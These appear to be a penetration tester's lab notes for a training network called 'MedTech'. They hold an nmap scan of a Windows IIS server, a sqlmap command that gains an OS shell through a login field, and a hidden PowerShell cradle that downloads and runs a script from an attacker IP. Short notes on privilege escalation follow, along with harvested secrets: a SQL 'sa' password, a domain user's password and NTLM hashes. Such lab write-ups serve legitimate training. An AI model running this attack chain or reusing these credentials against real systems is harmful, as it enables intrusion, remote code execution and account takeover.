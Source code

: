 ```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: MedTech
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-11-22T14:55:12
|_  start_date: N/A

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   40.92 ms 192.168.45.1
2   40.89 ms 192.168.45.254
3   41.67 ms 192.168.251.1
4   42.37 ms 192.168.210.121

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.30 seconds

```

![[Pasted image 20231122100801.png]]


```
sudo sqlmap -r sqlpost.txt -p ctl00%24ContentPlaceHolder1%24UsernameTextBox --os-shell

```



```
powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.45.195:8081/run.txt'))
```


seimpersonate bypass

hashdump offsec 

user joe has test.zip
- web.config has server=localhost\SQLEXPRESS;database=webapp;uid=sa;password=WhileChirpTuesday218;Trusted_Conn
![[Pasted image 20231122135646.png]]

MEDTECH\joe:Flowers1
offsec:2892d26cdf84d7a70e2eb3b9f05c425e
administrator:b2c03054c306ac8fc5f9d188710b0168